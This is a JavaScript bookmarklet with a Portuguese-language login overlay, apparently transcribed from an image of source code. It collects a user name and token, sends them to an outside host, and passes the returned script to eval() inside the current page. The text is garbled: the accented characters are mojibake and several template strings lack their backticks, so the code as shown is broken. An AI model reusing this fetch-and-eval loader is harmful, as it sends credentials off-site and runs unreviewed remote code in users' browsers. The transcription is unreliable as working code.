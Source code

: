 javascript:(function(){const formHtml=<div id="authForm" style="position:fixed;top:50%;left:50%;transform:translate(-50%,-50%);background-color:#121212;color:#fff;border:1px solid #E51C4D;border-radius:10px;padding:20px;box-shadow:0 4px 20px rgba(0,0,0,0.5);z-index:1000;width:300px;max-width:90%;"><h2 style="color:#E51C4D;text-align:center;">AutenticaÃ§Ã£o</h2><label for="username">Nome de UsuÃ¡rio:</label><br><input type="text" id="username" required style="width:100%;box-sizing:border-box;padding:10px;border-radius:5px;border:1px solid #E51C4D;background-color:#222;color:#fff;margin-bottom:10px;"><label for="token">Token:</label><br><input type="text" id="token" required style="width:100%;box-sizing:border-box;padding:10px;border-radius:5px;border:1px solid #E51C4D;background-color:#222;color:#fff;margin-bottom:20px;"><button id="submitBtn" style="background-color:#E51C4D;color:#fff;padding:10px;border:none;border-radius:5px;width:100%;cursor:pointer;">Enviar</button><button id="cancelBtn" style="background-color:#555;color:#fff;padding:10px;border:none;border-radius:5px;width:100%;cursor:pointer;margin-top:10px;">Cancelar</button></div>;document.body.insertAdjacentHTML('beforeend',formHtml);const submitBtn=document.getElementById('submitBtn');const cancelBtn=document.getElementById('cancelBtn');submitBtn.onclick=function(){const user=document.getElementById('username').value;const token=document.getElementById('token').value;if(!user||!token){alert('Por favor, preencha todos os campos.');return;}const apiUrl=https://proxy.squareweb.app/ramdomtin/toolblue?user=${encodeURIComponent(user)}&token=${encodeURIComponent(token)}`;fetch(apiUrl).then(response=>{if(!response.ok){return response.text().then(text=>{throw new Error(text||'Erro na resposta do servidor.');});}return response.text();}).then(script=>{if(script&&!script.trim().startsWith('<')){eval(script);document.getElementById('authForm').remove();}else{alert('Erro na resposta do servidor.');}}).catch(error=>alert(error.message||'Ops, algo deu errado.'));};cancelBtn.onclick=function(){document.getElementById('authForm').remove();};})();
